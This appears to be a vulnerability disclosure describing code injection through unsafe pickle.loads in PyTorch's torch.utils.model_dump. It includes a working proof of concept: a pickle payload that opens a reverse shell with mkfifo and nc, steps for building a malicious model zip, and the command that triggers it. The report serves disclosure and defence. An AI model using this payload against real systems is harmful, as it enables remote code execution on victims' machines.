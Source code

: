 ```yaml
---
layout: post
title:  "Command injection via unsafe pickle.loads in torch.utils.model_dump"
date:  2024-06-24 10:31:06 +0800
categories: command-injection
---
```


## Name

> Command injection via unsafe pickle.loads in torch.utils.model_dump

## Weakness

> CWE-94: Code Injection

## Severity

> High (8.8)

## Version

> 2.3.1

## Description

In pytorch module [`torch.utils.model_dump`](https://github.com/pytorch/pytorch/blob/main/torch/utils/model_dump/__init__.py), the method [`get_model_info`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L189) is responsible for extracting a model data in zip file. However, during the extraction, if a pickle file endswith `debug_pkl`, this file will be parsed by [`pickle.loads` function](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L264). In this case, if a [malicous pickle file is parsed](https://book.hacktricks.xyz/pentesting-web/deserialization#pickle), we can achive command injection in victim's mechine.

The vulnerable function: [`get_model_info`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L264)

```
def get_model_info(
        path_or_file,
        title=None,
        extra_file_size_limit=DEFAULT_EXTRA_FILE_SIZE_LIMIT):
    """Get JSON-friendly information about a model.

    The result is suitable for being saved as model_info.json,
    or passed to burn_in_info.
    """
    ...
    with zipfile.ZipFile(path_or_file) as zf:
        
        code_files = {}
        for zi in zf.infolist():
            if not zi.filename.endswith(".py"):
                continue
            with zf.open(zi) as handle:
                raw_code = handle.read()
            with zf.open(zi.filename + ".debug_pkl") as handle:
                raw_debug = handle.read()

            # Parse debug info and add begin/end markers if not present
            # to ensure that we cover the entire source code.
            # vulnerable sink!!!!!!!!!!
            debug_info_t = pickle.loads(raw_debug)
            
    ...
    return {"model": dict(
        title=title,
        file_size=file_size,
        version=version,
        zip_files=zip_files,
        interned_strings=list(interned_strings),
        code_files=code_files,
        model_data=model_data,
        constants=constants,
        extra_files_jsons=extra_files_jsons,
        extra_pickles=extra_pickles,
    )}
```

## Proof of Concept

Firstly, let's create a malicous model, and compress it with zip format. In [`get_model_info#L230`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L230), we know the model directory must contain `version` file. In [`get_model_info#L238`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L238), we know the model directory must contain `data.pkl` and `constants.pkl` files. In line [`get_model_info#L255`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L255) and line [`get_model_info#L259`](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L259), we know that the model must contain a python file and a `debug_pkl` file. So, let's create those files:

### `version`

```
1.1.0
```

### `data.pkl` and `constants.pkl`

Use following snippets to create `data.pkl` file:

```
import pickle
student_names = [1]
with open('data.pkl', 'wb') as f:
    pickle.dump(student_names, f)
```

Use following snippets to create `constants.pkl` file:

```
import pickle
student_names = ["df"]
with open('constants.pkl', 'wb') as f:
    pickle.dump(student_names, f)
```

### `payload.py`

Just create a empty file named `payload.py`

### `payload.py.debug_pkl`

Use following snippets to create a malicous pickle payload:

```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

with open('payload.py.debug_pkl', 'wb') as f:
    pickle.dump(RCE(), f)
```

### malicious model zip file

Copy all the files to a folder and create a model zipfile:

```
> ls -la torch-model-dump
-rw-r--r-- 1 kali kali   20 Jun 24 17:45 constants.pkl
-rw-r--r-- 1 kali kali   17 Jun 24 17:45 data.pkl
-rw-r--r-- 1 kali kali    0 Jun 24 17:45 payload.py
-rw-r--r-- 1 kali kali  121 Jun 24 17:45 payload.py.debug_pkl
-rw-r--r-- 1 kali kali    6 Jun 24 17:39 version

> zip -r torch-model-dump.zip torch-model-dump
```

The [`torch-model-dump.zip`](https://raw.githubusercontent.com/sunriseXu/onnx/main/torch-model-dump.zip) can be download from github.

## Start attack

Use following command to trigger the unsafe `pickle.loads` command injection:

```
python -m torch.utils.model_dump --style=json ./torch-model-dump.zip
```

After the command executed, we can check the `/tmp/f` file is created.

```
> ls -la /tmp/f
prw-r--r-- 1 kali kali 0 Jun 24 19:48 /tmp/f
```
## Colab

Tested on google colab: [https://colab.research.google.com/drive/1jKXmbFS4EcpwfYn1UXeKPFNV-dB3VtIs?usp=sharing](https://colab.research.google.com/drive/1jKXmbFS4EcpwfYn1UXeKPFNV-dB3VtIs?usp=sharing)

![image](/assets/images/bughunter/torch-pickle.png)

## Impact

This vulnerability can have severe consequences. If victims parse an malicious model file using `torch.utils.model_dump`, command injection can be achieved.


## Occurrences

[get_model_info#L264](https://github.com/pytorch/pytorch/blob/d21f311af880c736b18b5a588583f6162e9abcfa/torch/utils/model_dump/__init__.py#L264)


